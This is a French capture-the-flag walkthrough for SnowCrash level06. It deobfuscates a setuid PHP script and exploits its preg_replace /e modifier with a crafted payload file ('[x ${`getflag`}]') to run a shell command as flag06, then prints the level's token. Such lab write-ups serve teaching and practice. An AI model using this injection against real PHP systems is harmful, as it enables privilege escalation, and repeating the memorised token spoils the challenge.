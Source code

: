 En listant les fichiers, on trouve un binaire et un fichier PHP.
```bash
level06@SnowCrash:~$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

Ici le fichier binaire n'est pas intéressant, est exécuté juste le fichier PHP avec les droits de **flag06**.

```bash
level06@SnowCrash:~$ cat level06.php 
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

On remarque beaucoup d'expressions régulières et l'utilisation de argv.

En faisant un peu de désobfuscation, on obtient un script plus lisible.
```php
<?php
function y($m)
{
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
}
function x($y, $z)
{
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
?>
```

Le script prend en argument un fichier, qu'il va lire puis remplace certaines parties du texte par d'autres.

Ici ce qui nous intéresse est le modifier **e** du regex de la fonction x, qui permet d'exécuter du code.

Créons un fichier temporaire /tmp/t avec le contenu :
```bash
[x ${`getflag`}]
```

- `[x ...]` : délimite le motif reconnu par l'expression régulière.
- ${\`getflag\`} : syntaxe PHP permettant d'exécuter `getflag` en shell via les backticks.

```bash
echo "[x \${\`getflag\`}]" > /tmp/t
```

Puis on exécute le binaire sur ce lien.
```bash
level06@SnowCrash:~$ ./level06 /tmp/t
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```

Une erreur est créée à l'exécution par l'interpréteur PHP vu qu'on a inséré un bout de code à l'arrache, mais on s'en fiche vu qu'on a le flag.
